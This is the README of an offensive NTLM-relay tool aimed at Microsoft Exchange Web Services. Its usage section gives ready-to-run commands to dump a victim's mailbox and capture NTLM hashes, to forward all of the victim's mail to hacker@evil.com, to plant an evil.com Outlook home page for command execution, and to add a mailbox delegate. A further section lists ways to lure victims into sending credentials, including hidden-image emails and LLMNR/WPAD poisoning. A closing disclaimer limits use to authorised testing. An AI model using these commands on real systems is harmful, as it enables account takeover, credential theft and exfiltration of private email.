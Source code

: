 ntlmRelayToEWS
============

Based on ntlmRelayToEWS - Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)
Modified by MISTeam 

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------
**Exchange version**:<br>
I've tested this tool against an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
Although I've not tested myself, some reported this tool is also working against an **Exchange 2016 server**, out of the box (*ie: without any changes to the SOAP request templates*).

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket) at least v0.9.17. So follow their instructions to get a working version of Impacket.

Improovements
----------------------
Changed impacket v0.9.15 to v0.9.18. So SMB server works with SMB2 and Windows 10 clients<br>
Added domain filter parameter to SMB server - so U can filter incoming SMB auth requests by used SMB DOMAIN and do not relay wrong request to OWA<br>
Added http OPTIONS and HEAD reply so MS Office user-agent works correctly.<br>
Added failed logins logging<br>
Added date and time to log file<br>
Added download limits<br>

Usage
----------------------
**ntlmRelayToEWS** implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get additional info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v` flag.

**getFolder and save NTLM-SSP hash**<br>
Retrieves all items from a predefined folder (*inbox, sent items, calendar, tasks*) and save NTLM-SSL hash (failed and success) to file:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox -o out.txt`

**sendMail**<br>
Sends an HTML formed e-mail to a list of destinations:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**forwardRule**<br>
Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**<br>
Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program by forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

**addDelegate**<br>
Sets a delegate address on the victim's primary mailbox. In other words, the victim delegates the control of its mailbox to someone else. Once done, it means the delegated address has full control over the victim's mailbox, by simply opening it as an additional mailbox in Outlook:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org`

**Limiting folder download**<br>
Use --limit param to limiting download messages<br>
`./ntlmRelayToEWS.py -v -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox --filter LAB --limit 10 `

**Debug**<br>
When U get problem with connection to EWS - U can use it with proxychains and http proxy server, or U can use -v param<br>
`proxychains ./ntlmRelayToEWS.py -v -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org`

How to get the victim to give you their credentials for relaying ?
----------------------
In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB. Check the `Invoke-SendEmail.ps1` script to achieve this.
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* by Alberto Solino [@agsolino](https://twitter.com/agsolino).

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*